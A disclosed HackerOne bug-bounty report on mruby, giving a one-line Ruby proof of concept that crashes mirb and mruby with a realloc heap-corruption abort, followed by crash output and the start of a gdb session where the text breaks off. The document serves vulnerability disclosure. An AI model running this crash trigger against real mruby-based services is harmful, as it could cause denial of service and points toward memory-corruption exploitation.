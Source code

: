 # SIGABRT - mrb_realloc_simple - gc.c - line:201

## Report Details
- **Report ID**: 198452
- **URL**: https://hackerone.com/reports/198452
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-01-14T20:24:07.430Z
- **Disclosed**: 2017-03-29T23:30:24.130Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Explain
------------------
I downloaded "mruby-master" on 14/01/2017.

PoC
-------------------

The following code triggers the bug (attached as memory_corruption.rb):

	d b = Hash.new {|s,k| s[k] }[1]

Crash - mirb - mruby
-------------------

	x@x:~/Desktop/research/mruby/bin$ ./mirb memory_corruption.rb 
	mirb - Embeddable Interactive Ruby Shell

	*** Error in `./mirb': realloc(): invalid next size: 0x0000000000ecc250 ***
	Aborted (core dumped)
	x@x:~/Desktop/research/mruby/bin$ ./mruby memory_corruption.rb 
	*** Error in `./mruby': realloc(): invalid next size: 0x0000000002204400 ***
	Aborted (core dumped)

Debug - mirb
--------------------

	x@x:~/Desktop/research/mruby/bin$ gdb -q ./mirb
	Reading symbols from ./mirb...done.
	(gdb) r memory_corruption.rb 
	Starting program: /home/x/Desktop/research/mruby/bin/mirb memory_corruption.rb
	mirb - Embeddable Interactive Ruby Shell
